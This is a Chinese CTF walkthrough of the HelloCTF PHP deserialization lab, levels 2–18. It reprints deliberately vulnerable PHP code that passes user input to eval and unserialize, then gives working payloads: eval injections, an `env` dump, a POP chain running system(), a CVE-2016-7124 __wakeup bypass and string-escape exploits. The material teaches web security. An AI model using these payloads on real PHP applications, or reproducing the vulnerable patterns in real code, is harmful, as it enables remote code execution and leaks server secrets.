


# HELLOCTF反序列化靶场全解-先知社区

> **来源**: https://xz.aliyun.com/news/16338  
> **文章ID**: 16338

---

### level 2

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 2 : 类值的传递 --- 

HINT：尝试将flag传递出来~

# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

error_reporting(0);

 $flag_string = "NSSCTF{？？？？}";

 class FLAG{
        public $free_flag = "???";

        function get_free_flag(){
            echo $this->free_flag;
        }
    }
$target = new FLAG();

$code = $_POST['code'];

if(isset($code)){
       eval($code);
       $target->get_free_flag();
}
else{
    highlight_file('source');
}

```

从上往下 可控点位于`$code = $_POST['code'];`flag位于`$flag_string`根据代码可以修改class中的`$free_flag`值为`$flag_string`

```
code=$target->$free_flag = $flag_string;

```

### level3

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 3 : 对象中值的权限 --- 

HINT：尝试将flag传递出来~

# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class FLAG{
    public $public_flag = "NSSCTF{?";
    protected $protected_flag = "?";
    private $private_flag = "?}";

    function get_protected_flag(){
        return $this->protected_flag;
    }

    function get_private_flag(){
        return $this->private_flag;
    }
}

class SubFLAG extends FLAG{
    function show_protected_flag(){
        return $this->protected_flag;
    }

    function show_private_flag(){
        return $this->private_flag;
    }
}

$target = new FLAG();
$sub_target = new SubFLAG();


$code = $_POST['code'];

if(isset($code)){
    eval($code);
} else {
    highlight_file(__FILE__);
    echo "Trying to get FLAG...<br>";
    echo "Public Flag: ".$target->public_flag."<br>";
    echo "Protected Flag:".$target->protected_flag ."<br>";
    echo "Private Flag:".$target->private_flag ."<br>";
}

?>

```

关键点位于

```
public $public_flag = "NSSCTF{?";
    protected $protected_flag = "?";
    private $private_flag = "?}";
    class SubFLAG extends FLAG

```

其中用到了三个修饰符`public` `protected` `private`分别代表

* **public（公有）：** 公有的类成员可以在任何地方被访问。
* **protected（受保护）：** 受保护的类成员则可以被其自身以及其子类和父类访问。(可继承)
* **private（私有）：** 私有的类成员则只能被其定义所在的类访问。(不可继承)

效果就是当我们尝试通过继承类访问private成员变量时候是无法访问的



而protected是可以访问的



`code=echo $target->public_flag.$target->get_protected_flag().$target->get_private_flag();`

### level4

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 4 : 序列化 --- 

HINT：嗯！？全是私有，怎么获取flag呢？试试序列化！

# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class FLAG3{
    private $flag3_object_array = array("？","？");
}

class FLAG{
     private $flag1_string = "？";
     private $flag2_number = '?';
     private $flag3_object;

    function __construct() {
        $this->flag3_object = new FLAG3();
    }
}

$flag_is_here = new FLAG();


$code = $_POST['code'];

if(isset($code)){
    eval($code);
} else {
    highlight_file(__FILE__);
}

```

观察代码，在输入之前就已经完成了对象的创建`$flag_is_here = new FLAG();`观察所创建对象都是私有类型，其中`\_\_construct()创建了FLAG3()的对象，但其中也是私有量

解题可以通过序列化后将所有数据带出来

```
echo serialize($flag_is_here);
O:4:"FLAG":3:{s:18:"FLAGflag1_string";s:8:"ser4l1ze";s:18:"FLAGflag2_number";i:2;s:18:"FLAGflag3_object";O:5:"FLAG3":1:{s:25:"FLAG3flag3_object_array";a:2:{i:0;s:3:"se3";i:1;s:2:"me";}}}

```

```
NSSCTF{ser4l1ze2se3me}

```

### level5

考察常规值的序列化了解

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 5 : 序列化规则 --- 

HINT：各有千秋~

# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class a_class{
    public $a_value = "NSSCTF";
}
$a_object = new a_class();
$a_array = array(a=>"Hello",b=>"CTF");
$a_string = "NSSCTF";
$a_number = 678470;
$a_boolean = true;
$a_null = null;

See How to serialize:
a_object: O:7:"a_class":1:{s:7:"a_value";s:6:"NSSCTF";}
a_array: a:2:{s:1:"a";s:5:"Hello";s:1:"b";s:3:"CTF";}
a_string: s:6:"NSSCTF";
a_number: i:678470;
a_boolean: b:1;
a_null: N;
Now your turn!
<?php

$your_object = unserialize($_POST['o']);
$your_array = unserialize($_POST['a']);
$your_string = unserialize($_POST['s']);
$your_number = unserialize($_POST['i']);
$your_boolean = unserialize($_POST['b']);
$your_NULL = unserialize($_POST['n']);

if(
    $your_boolean && 
    $your_NULL == null &&
    $your_string == "IWANT" &&
    $your_number == 1 &&
    $your_object->a_value == "FLAG" &&
    $your_array['a'] == "Plz" && $your_array['b'] == "Give_M3"
){
    echo $flag;
}
else{
    echo "You really know how to serialize?";
}


You really know how to serialize?

```

注意到下面的if判断，内容通过反序列化函数输入

不仅class,普通数值也可进行序列化

```
<?php
class a_class{
    public $a_value = "FLAG";
}
$a_object = new a_class();
$a_array= array("a"=>"Plz","b"=>"Give_M3");
$a_string = "IWANT";
$a_number = 1;
$a_boolean = true;
$a_null = null;

//echo serialize($a_object);
//echo serialize($a_array);
//echo serialize($a_string);
//echo serialize($a_number);
//echo serialize($a_boolean);
//echo serialize($a_null);

$exp = "o=".serialize($a_object)."&a=".serialize($a_array)."&s=".serialize($a_string)."&i=".serialize($a_number)."&b=".serialize($a_boolean)."&n=".serialize($a_null);
echo $exp;

```

```
o=O:7:"a_class":1:{s:7:"a_value";s:4:"FLAG";}&a=a:2:{s:1:"a";s:3:"Plz";s:1:"b";s:7:"Give_M3";}&s=s:5:"IWANT";&i=i:1;&b=b:1;&n=N;

```

### level 6

考察权限修饰的序列化表现

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 6 : 序列化规则_权限修饰 --- 

HINT：各有千秋~特别注意的权限修饰符x

# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class protectedKEY{
    protected $protected_key;

    function get_key(){
        return $this->protected_key;
    }
}

class privateKEY{
    private $private_key;

    function get_key(){
        return $this->private_key;
    }

}
$protected_key = unserialize($_POST['protected_key']);
$private_key = unserialize($_POST['private_key']);

if(isset($protected_key)&&isset($private_key)){
    if($protected_key->get_key() == "protected_key" && $private_key->get_key() == "private_key"){
        echo $flag;
    } else {
        echo "We Call it %00_Contr0l_Characters_NULL!";
    }
} else {
    highlight_file(__FILE__);
}

```

不难看出来来需要通过传入序列化参数 触发if判断，一个是私有参数一个是保护参数，他们的序列化内容都会有不可见字符，所以需要对他们进行urlencode来完成防止字符丢失

```
<?php

class protectedKEY{
    protected $protected_key="protected_key";

    function get_key(){
        return $this->protected_key;
    }
}

class privateKEY{
    private $private_key="private_key";

    function get_key(){
        return $this->private_key;
    }

}

$x = new protectedKEY();
$y = new privateKEY();
echo "protected_key=".urlencode(serialize($x))."&private_key=".urlencode(serialize($y));

```

### level7

基础反序列化漏洞

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 7 : 实例化和反序列化 --- 

HINT：可控的输入 简单的漏洞演示 / FLAG in flag.php

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class FLAG{
    public $flag_command = "echo 'Hello CTF!<br>';";

    function backdoor(){
        eval($this->flag_command);
    }
}

$unserialize_string = 'O:4:"FLAG":1:{s:12:"flag_command";s:24:"echo 'Hello World!<br>';";}';

$Instantiate_object = new FLAG(); // 实例化的对象

$Unserialize_object = unserialize($unserialize_string); // 反序列化的对象

$Instantiate_object->backdoor();

$Unserialize_object->backdoor();

<?php /* Now Your Turn */
unserialize($_POST['o'])->backdoor();

```

### level 8

这里考察了构造函数 `__construct()`和 析构函数 `__destruct()`的使用

```
<?php

class RELFLAG {

    public function __construct()
    {
        global $flag;
        $flag = 0;
        $flag++;
        echo "Constructor called " . $flag . "<br>";
    }
    public function __destruct()
    {
        global $flag;
        $flag++;
        echo "Destructor called " . $flag . "<br>";
    }
}

function check(){
    global $flag;
    if($flag > 5){
        echo "HelloCTF{???}";
    }else{
        echo "Check Detected flag is ". $flag;
    }
}

if (isset($_POST['code'])) {
    eval($_POST['code']);
    check();
}

```

构造函数仅会在对象实例化的时候被调用——反序列化的创建过程则不会触发，也就是`new`的时候，解析函数则是会在对象被回收时候触发，例如手动回收的`unset`函数，或者自动回收

由此 可构建一个payload

```
unserialize(serialize(unserialize(serialize(unserialize(serialize(unserialize(serialize(new RELFLAG()))))))));

```

### level 9

常规

```
<?php
/*
--- HelloCTF - 反序列化靶场 关卡 9 : 构造函数的后门 --- 

HINT：似曾相识

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class FLAG {
    var $flag_command = "echo 'HelloCTF';";
    public function __destruct()
    {
        eval ($this->flag_command);
    }
}

unserialize($_POST['o']);

```

不常规的是system函数无法使用，所以需要使用``来完成命令的执行，在php中反引号的功能就是类似shell\_exec，将字符串作为命令执行后返回

由此可得payload

```
class FLAG {
    var $flag_command = "echo `env`;";
}

echo urlencode(serialize(new FLAG()));

```

### level 10

第一个魔法函数`__wakeup()`

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 10 : weakup! --- 

unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。
除开构造和析构函数，这应该是你第一个真正意义上开始接触的魔术方法，此后每一个魔术方法对应的题目我都会在这里介绍。
当然你也可以直接查阅PHP官网文档 - 魔术方法部分：https://www.php.net/manual/zh/language.oop5.magic.php

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

error_reporting(0);

class FLAG{
    function __wakeup() {
        include 'flag.php';
        echo $flag;
    }
}

if(isset($_POST['o']))
{
    unserialize($_POST['o']);
}else {
    highlight_file(__FILE__);
}
?>

```

其实题目已经说的非常清楚了`__wakeup()`作为一个魔术方法，他的作用是在反序列化前完成运行，那么只需要传入一个序列化内容就好，里面甚至不需要有东西

```
class FLAG{
    function __wakeup() {
        include 'flag.php';
        echo $flag;
    }
}

echo serialize(new FLAG());

```

### level 11

老漏洞，但是在ctf还是会常出现

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 11 : Bypass weakup! --- 

CVE-2016-7124 - PHP5 < 5.6.25 / PHP7 < 7.0.10
在该漏洞中，当序列化字符串中对象属性的值大于真实属性值时便会跳过__wakeup的执行。

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

error_reporting(0);

include 'flag.php';

class FLAG {
    public $flag = "FAKEFLAG";

    public function  __wakeup(){
        global $flag;
        $flag = NULL;
    }
    public function __destruct(){
        global $flag;
        if ($flag !== NULL) {
            echo $flag;
        }else
        {
            echo "sorry,flag is gone!";
        }
    }
}

if(isset($_POST['o']))
{
    unserialize($_POST['o']);
}else {
    highlight_file(__FILE__);
    phpinfo();
}

?>

```

不难注意到这里要获得flag需要`$flag !== NULL`但是在`__wakeup()`中设置了`flag = NULL`所以需要使用其他的方法

`CVE-2016-7124`的作用是，当序列化内容中对象属性的值大于真实属性值时便会跳过\_\_wakeup的执行，那么我们只需要构造一个非标准序列化内容

```
O:4:"FLAG":1:{s:4:"flag";s:8:"fuckflag";} >> O:4:"FLAG":1:{s:4:"flag";s:9:"fuckflag";}

```

即可

### level 12

真有意思

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 12 : sleep! ---

年轻就是好啊，倒头就睡。

serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。
该方法必须返回一个数组: return array('属性1', '属性2', '属性3') / return ['属性1', '属性2', '属性3']。
数组中的属性名将决定哪些变量将被序列化，当属性被 static 修饰时，无论有无都无法序列化该属性。
如果需要返回父类中的私有属性，需要使用序列化中的特殊格式 - %00父类名称%00变量名
(也就是 "\0FLAG\0f" 的写法)。如果该方法未返回任何内容，序列化会被制空，并产生一个 E_NOTICE 级别的错误。
*/

class FLAG {

    private $f;       // 私有属性 f，只能在本类中访问
    private $l;       // 私有属性 l，只能在本类中访问
    protected $a;     // 受保护属性 a，本类和子类可访问
    public  $g;       // 公有属性 g，任何地方都可访问
    public $x,$y,$z;  // 公有属性 x、y、z

    // 魔术方法 __sleep() 会在调用 serialize($object) 前被自动执行
    public function __sleep() {
        // 只返回 x, y, z 这三个属性名
        // 序列化后，结果中只包含这三个属性的内容
        return ['x','y','z'];
    }
}

class CHALLENGE extends FLAG {

    // 子类定义了 8 个公有属性
    // 注意这里 $f 虽然同名，但和父类的 private $f 是不同的作用域
    public $h,$e,$l,$I,$o,$c,$t,$f;

    // 定义一个方法 chance()，返回 $_GET['chance'] 参数值
    function chance() {
        return $_GET['chance'];  // 若 URL 带 ?chance=xxx，则返回 xxx
    }

    // 子类重写了 (override) 父类的 __sleep()
    public function __sleep() {
        /*
           注释：FLAG is $h + $e + $l + $I + $o + $c + $t + $f + $f + $l + $a + $g
           看起来是想暗示这些属性拼在一起就是“FLAG”。
        */

        // 这里定义了一个属性名数组
        $array_list = ['h','e','l','I','o','c','t','f','f','l','a','g'];

        // array_rand($array_list) 从数组中随机返回一个键
        $_ = array_rand($array_list);
        $__ = array_rand($array_list);

        // 返回 3 个属性名：
        //  1) $array_list[$_]  -> 第一次随机选择的属性名
        //  2) $array_list[$__] -> 第二次随机选择的属性名
        //  3) $this->chance()  -> 从 $_GET['chance'] 来的字符串
        return array($array_list[$_], $array_list[$__], $this->chance());
    }

}

// 实例化 FLAG 类
$FLAG = new FLAG();

// 序列化 $FLAG 对象
// 因为 FLAG 类的 __sleep() 返回 [x,y,z]
// 最终只会序列化 x,y,z 这三个属性（且若没赋值，默认为 null）
echo serialize($FLAG);

// 序列化一个新的 CHALLENGE 对象
// 调用 CHALLENGE::__sleep()，会随机拿 array_list 中两个属性名，
// 再把 ?chance=xxx 里的 xxx 也当作一个属性名一起序列化
echo serialize(new CHALLENGE());

```

原题代码注解了下

这题主要演示的是`__sleep()`逐个魔术函数，在序列化内容的时候如果存在这个函数他就会先被调用

一样的做题先看可控点，可控点位于子类的`chance()`方法中，跟踪这个方法到了`array($array_list[$_], $array_list[$__], $this->chance());`而这个语句位于子类的`__sleep()`中下面的`serialize(new CHALLENGE());`之前他会先被执行，所以如果我们想拿到父类中的`private`属性，就可以使用`%00FLAG%00f`来传入，在序列化中其会被解读分析成父类的属性变量，在序列化内容中显示

为什么会显示：因为`sleep`必须返回数组，而数组中的属性名将决定哪些变量将被序列化

```
O:9:"CHALLENGE":3:{s:1:"f";s:3:"t0_";s:1:"l";s:17:"__sleep_function_";s:7:"FLAGf";s:6:"clean_";}

```

所以，我们即可以通过控制序列化内容的方式获取我们需要的内容

```
NSSCTF{Th3___sleep_function__is_called_before_serialization_t0_clean_up_4nd_select_variab1es}

```

### level 13

`toString()`

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 13 __toString()  --- 

__toString() 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class FLAG {
    function __toString() {
        echo "I'm a string ~~~";
        include 'flag.php';
        return $flag;
    }
}

$obj = new FLAG();

if(isset($_POST['o'])) {
    eval($_POST['o']);
} else {
    highlight_file(__FILE__);
}

```

一般情况下echo无法直接输出一个对象，而通过`toString()`函数则可以实现

当尝试使用echo输出一个对象的时候，其会尝试检查对象是否定义了一个`toString()`，如果没有定义则直接返回一个错误

方法没有参数，也不传递参数，但该方法必须返回字符串

### level 14

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 14 : __invoke() --- 

当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用。例如 $obj()。

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class FLAG{
    function __invoke($x) {
        if ($x == 'get_flag') {
            include 'flag.php';
            echo $flag;
        }
    }
}

$obj = new FLAG();

if(isset($_POST['o'])) {
    eval($_POST['o']);
} else {
    highlight_file(__FILE__);
}

```

简单来说就是`__invoke()` 会在将一个对象当作一个方法来使用时会自动调用

payload：

```
o=echo $obj('get_flag');

```

### Level15-POP链前置

代码

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 15 : POP链初步 --- 

世界的本质其实就是套娃（x

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

/* FLAG in flag.php */

class A {
    public $a;
    public function __construct($a) {
        $this->a = $a;
    }
}
class B {
    public $b;
    public function __construct($b) {
        $this->b = $b;
    }
}
class C {
    public $c;
    public function __construct($c) {
        $this->c = $c;
    }
}

class D {
    public $d;
    public function __construct($d) {
        $this->d = $d;
    }
    public function __wakeUp() {
        $this->d->action();
    }
}

class destnation {
    var $cmd;
    public function __construct($cmd) {
        $this->cmd = $cmd;
    }
    public function action(){
        eval($this->cmd->a->b->c);
    }
}

if(isset($_POST['o'])) {
    unserialize($_POST['o']);
} else {
    highlight_file(__FILE__);
}

```

注意到终点的需求`eval($this->cmd->a->b->c);`cmd中的a中的b中的c需要是payload，又注意到`action()`函数的调用位于D类

那么可以得到payload

```
$C = new C("system('env');");
$B = new B($C);
$A = new A($B);
$destnation = new destnation($A);
$D = new d($destnation);

echo serialize($D);
O:1:"D":1:{s:1:"d";O:10:"destnation":1:{s:3:"cmd";O:1:"A":1:{s:1:"a";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:14:"system('env');";}}}}}

```

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 16 : zePOP--- 

__wakeUp() 方法用于反序列化时自动调用。例如 unserialize()。
__invoke() 方法用于一个对象被当成函数时应该如何回应。例如 $obj() 应该显示些什么。
__toString() 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。

试着把他们串起来吧ww

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class A {
    public $a;
    public function __invoke() {
            include $this->a;
            return $flag;
    }
}

class B {
    public $b;
    public function __toString() {
        $f = $this->b;
        return $f();
    }
}


class INIT {
    public $name;
    public function __wakeUp() {
        echo $this->name.' is awake!';
    }
}

if(isset($_POST['o'])) {
    unserialize($_POST['o']);
} else {
    highlight_file(__FILE__);
}

```

这题涉及了三个函数`__wakeUp() __invoke() __toString()`

先找终点 终点是class A 这里返回了flag，不难发现需要引入flag.php——且这里使用了invoke()函数，他的作用是当对象被作为函数调用时候的返回flag，满足这个逻辑的对象是B，那么只需要将A传入B再将B传入init即可

payload

```
class A {
    public $a = 'flag.php'; # 修改 使得include导入flag.php
    public function __invoke() { # 终点
        include $this->a;
        return $flag;
    }
}

class B {
    public $b;
    public function __toString() {
        $f = $this->b;
        return $f(); #返回了函数调用 让f指向class A
    }
}


class INIT {
    public $name;
    public function __wakeUp() { # 入口 方法用于反序列化时自动调用
        echo $this->name.' is awake!';
    }
}
$a = new A;
$b = new B;
$init = new INIT;
$b -> b = $a;
$init->name = $b;
echo serialize($init);

```

```
O:4:"INIT":1:{s:4:"name";O:1:"B":1:{s:1:"b";O:1:"A":1:{s:1:"a";s:8:"flag.php";}}}

```

### level 17

无中生有

```
/*
--- HelloCTF - 反序列化靶场 关卡 17 : 字符串逃逸基础 --- 

序列化和反序列化的规则特性_无中生有：当成员属性的实际数量符合序列化字符串中对应属性值时，似乎不会做任何检查？

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

class A {

}
echo "Class A is NULL: '".serialize(new A())."'<br>";

class B {
    public $a = "Hello";
    protected $b = "CTF";
    private $c = "FLAG{TEST}";
}
echo "Class B is a class with 3 properties: '".serialize(new B())."'<br>";

$serliseString = serialize(new B());

$serliseString = str_replace('B', 'A', $serliseString);

echo "After replace B with A,we unserialize it and dump :<br>";
var_dump(unserialize($serliseString));

if(isset($_POST['o'])) {
    $a = unserialize($_POST['o']);
    if ($a instanceof A && $a->helloctfcmd == "get_flag") {
        include 'flag.php';
        echo $flag;
    } else {
        echo "what's rule?";
    }
} else {
    highlight_file(__FILE__);
}

```

极端情况下，在一个完全空白的序列化对象中，反序列化的字符串包含了内容，则反序列化后的对象则会包含这些属性

payload：

```
class A{
    public $helloctfcmd = "get_flag";
}

```

### level 18

字符串逃逸2

```
<?php

/*
--- HelloCTF - 反序列化靶场 关卡 18 : 字符串逃逸基础 --- 

序列化和反序列化的规则特性,字符串尾部判定：进行反序列化时，当成员属性的数量，名称长度，内容长度均一致时，程序会以 ";}" 作为字符串的结尾判定。

# -*- coding: utf-8 -*-
# @Author: 探姬(@ProbiusOfficial)
# @Date:   2024-07-01 20:30
# @Repo:   github.com/ProbiusOfficial/PHPSerialize-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

*/

highlight_file(__FILE__);

class Demo {
    public $a = "Hello";
    public $b = "CTF";
    public $key = 'GET_FLAG";}FAKE_FLAG';
}

class FLAG {

}

$serliseStringDemo = serialize(new Demo());

$target = $_GET['target'];
$change = $_GET['change'];

$serliseStringFLAG = str_replace($target, $change, $serliseStringDemo);

$FLAG = unserialize($serliseStringFLAG);

if ($FLAG instanceof FLAG && $FLAG->key == 'GET_FLAG') {
    echo $flag;
}

```

这道题的关键点位于str\_replace函数 我看可以控制Demo()反序列化后的结果，判断点的要求是令对象FLAG中的key等于GET\_FLAG

```
'O:4:"Demo":3:{s:1:"a";s:5:"Hello";s:1:"b";s:3:"CTF";s:3:"key";s:20:"GET_FLAG";}FAKE_FLAG";}'

```

反序列化的内容如上，需要做的就是替换掉Demo与GET\_FLAG";}FAKE\_FLAG，如此可以传入数组替换，将20替换为8压缩空间，将Demo替换为FLAG

```
http://node1.anna.nssctf.cn:28034/Level18/index.php?target[]=Demo&target[]=20&change[]=FLAG&change[]=8
```
